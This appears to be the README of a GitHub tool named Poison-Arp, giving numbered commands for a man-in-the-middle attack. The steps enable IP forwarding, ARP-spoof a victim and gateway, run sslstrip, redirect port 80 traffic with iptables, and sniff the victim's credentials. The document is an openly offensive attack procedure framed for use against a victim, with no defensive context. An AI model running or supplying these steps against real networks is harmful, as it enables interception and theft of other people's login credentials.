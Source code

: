 # Poison-Arp

This is tool can poison the Arp tables of the victim as well as router and sniff all the credentials of the victim.It works with both HTTP and HTTPS but not with HSTS.

Step 1:- Allow traffic to pass through the Hacker machine with the below command 

$ echo 1 > /proc/sys/net/ipv4/ip_forward

![](/images/traffic_bypass.png)


Step 2:- Now run the arp-spoofer  with the below command 

$ python3 arp_spoofer.py --gateway  ap_ip --target victim_ip

![](/images/spoof.png)

Step 3: Run the sslstrip with the below command

$ sslstrip

![](/images/ssltrip.png)

Step 4: forward all the traffic to sslstrip port using iptables with the following command 

$ iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT  --to-port 10000 

![](/images/iptables.png)


Step 5: Run the sniffer with the following command

$ python3 sniffer.py -i interface

![](/images/login_new.png)








